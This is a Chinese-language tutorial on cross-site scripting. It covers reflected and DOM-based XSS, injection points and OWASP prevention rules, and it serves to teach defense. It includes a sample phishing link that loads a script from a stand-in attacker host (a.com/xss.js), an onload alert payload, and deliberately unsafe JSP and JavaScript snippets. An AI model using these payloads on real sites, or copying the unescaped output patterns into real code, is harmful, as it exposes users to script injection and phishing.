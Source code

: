 攻击流程示例：

1. 恶意用户A搜索、验证并确信某系统B在访问 <code>http://b.com/welcome.do?user=zhang3</code> 时，是以以下方式显示URL中的用户名的（JSP语法）：

    ```jsp
    welcome <%=param["user"] %>!
    ```
1. 恶意用户A就利用此漏洞，以系统B的名义向多个用户发送包含以下连接的HTML邮件，并诱导用户点击该链接：

    ```html
    {系统B}温馨提醒您：XXX 想加您好友，请点击
    <a href="http://b.com/welcome.do?user=zhang3<script src='http://a.com/xss.js'></script>">此处</a>
    进行处理！
    ```

1. 后果：受害者在阅读该邮件并点击此链接后，在浏览系统B的欢迎画面时，就会加载并执行来自于 a.com 的恶意脚本



### DOM Based XSS
这种方式与 Reflected XSS Attacks 比较相似，但区别在于：在Reflected XSS Attacks 中，恶意代码时有缺陷的系统在返回给浏览器端之间就加入到生成的HTML中了（比如通过JSP、PHP等）；而在 DOM Based XSS 中，恶意代码是在浏览器端通过有缺陷的JavaScript代码在动态修改DOM树时加入的。

也即，在 Reflected XSS Attacks 的攻击流程示例的第二步中的代码替换为以下方式：

```html
 welcome <script>
document.write(document.location.href.substring(document.location.href.indexOf("user=")+5));
</script>!
```

与前两种的区别是：前两种最终会将风险代码写在生成HTML中，而这一种是服务器端返回的HTML本身并不包含风险代码，但是其中的JavaScript脚本在动态修改DOM时，未对输出值做充分的安全检查。


注入点 

1. 客户端：来自用户输入，却未作安全检查。

    ```html
    <img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
    ```

2. 服务器端：来自配置文件，却未作安全检查（比如消息模板，头部文件）

## 防范XSS
在Web应用中，XSS缺陷很难确认和移除，一些漏洞扫描工具也只能对浅层的扫描。最好的方式就是针对安全展开代码Review，并对所有来自HTTP请求的数据进行检查，如果请求中的数据有可能最终作为HTML显示，就需要做相应的处理。

## 检查列表
这里仅仅给出了部分摘要，更详尽列表请参看 《[XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)》：

1. RULE #0 - 不信任的数据只能插入到允许的位置。 示例代码：

    ```
      <script>...NEVER PUT UNTRUSTED DATA HERE...</script>   直接放到script中
      &lt;!--...NEVER PUT UNTRUSTED DATA HERE...-->             在HTML注释中
      <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       在属性名中
      <NEVER PUT UNTRUSTED DATA HERE... href="/test" />      在标签名中
      <style>...NEVER PUT UNTRUSTED DATA HERE...</style>     直接在CSS中
    ```
